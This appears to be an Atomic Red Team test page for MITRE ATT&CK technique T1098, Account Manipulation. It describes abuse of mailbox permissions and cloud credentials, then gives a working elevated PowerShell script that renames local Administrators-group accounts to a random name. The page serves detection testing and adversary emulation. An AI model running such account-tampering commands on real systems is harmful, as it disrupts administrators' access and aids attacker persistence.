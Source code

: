 # T1098 - Account Manipulation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.

### Exchange Email Account Takeover

The Add-MailboxPermission PowerShell cmdlet, available in on-premises Exchange and in the cloud-based service Office 365, adds permissions to a mailbox.(Citation: Microsoft - Add-MailboxPermission) This command can be run, given adequate permissions, to further access granted to certain user accounts. This may be used in persistent threat incidents as well as BEC (Business Email Compromise) incidents where an adversary can assign more access rights to the accounts they wish to compromise. This may further enable use of additional techniques for gaining access to systems. For example, compromised business accounts are often used to send messages to other accounts in the network of the target business while creating inbox rules so the messages evade spam/phishing detection mechanisms.(Citation: Bienstock, D. - Defending O365 - 2019)

### Azure AD

In Azure, an adversary can set a second password for Service Principals, facilitating persistence.(Citation: Blue Cloud of Death)

### AWS

AWS policies allow trust between accounts by simply identifying the account name. It is then up to the trusted account to only allow the correct roles to have access.(Citation: Summit Route Advanced AWS policy auditing)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Admin Account Manipulate](#atomic-test-1---admin-account-manipulate)


<br/>

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```





<br/>
